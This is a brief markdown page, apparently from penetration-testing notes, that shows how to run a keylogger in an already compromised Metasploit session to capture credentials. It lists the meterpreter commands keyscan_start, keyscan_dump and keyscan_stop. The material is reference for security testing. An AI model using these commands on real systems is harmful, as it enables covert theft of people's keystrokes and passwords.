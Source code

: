 # Keylogger

...



## Keylogger in msf session

Once we have obtained a msf session, we can set up a keylogger to try to intercept some credentials.

```bash
# start keylogger
msf> keyscan_start

# dump intecept stokes so far
msf> keyscan_dump

# stop keylogger
msf> keyscan_stop
```

